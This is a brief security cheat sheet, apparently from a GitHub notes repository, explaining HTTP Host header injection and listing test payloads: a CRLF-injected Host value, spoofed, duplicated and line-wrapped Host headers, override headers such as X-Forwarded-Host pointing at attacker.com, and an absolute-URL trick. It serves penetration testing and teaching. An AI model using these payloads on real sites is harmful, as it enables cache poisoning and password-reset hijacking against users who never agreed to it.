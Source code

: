 # Host Header Injection
HTTP Host header attacks exploit vulnerable websites that handle the value of the Host header in an unsafe way. If the server implicitly trusts the Host header, and fails to validate or escape it properly, an attacker may be able to use this input to inject harmful payloads that manipulate server-side behavior.

### attacker can supply invalid input to cause the web server to:
* Dispatch requests to the first virtual host on the list.
* Perform a redirect to an attacker-controlled domain.
* Perform web cache poisoning.
* Manipulate password reset functionality.
* Allow access to virtual hosts that were not intended to be externally accessible.

## How to exploit
*  Send a request with a malicious Host header value
 ```html
GET /index.html HTTP/1.1
Host: www.example.com%0d%0aX-Forwarded-For: 192.168.1.1
...
```
* Send a request with a spoofed Host header value
```html
GET /index.html HTTP/1.1
Host: www.example.com.attacker.com
...
```
* Change the Host header
```html
GET /example HTTP/1.1
Host: attacker.com
...
```
* Duplicating the Host header
```html
GET /example HTTP/1.1
Host: vulnerable-website.com
Host: attacker.com
...
```
* Add line wrapping
```html
GET /example HTTP/1.1
 Host: vulnerable-website.com
Host: attacker.com
...
```
* Add host override headers
```html
X-Forwarded-For: attacker.com
X-Forwarded-Host: attacker.com
X-Client-IP: attacker.com
X-Remote-IP: attacker.com
X-Remote-Addr: attacker.com
X-Host: attacker.com
Forwarded: attacker.com

# How to use? In this case I using "X-Forwarded-For : attacker.com"
GET /example HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For : attacker.com
...

# Supply an absolute URL
GET https://vulnerable-website.com/ HTTP/1.1
Host: attacker.com
...
```
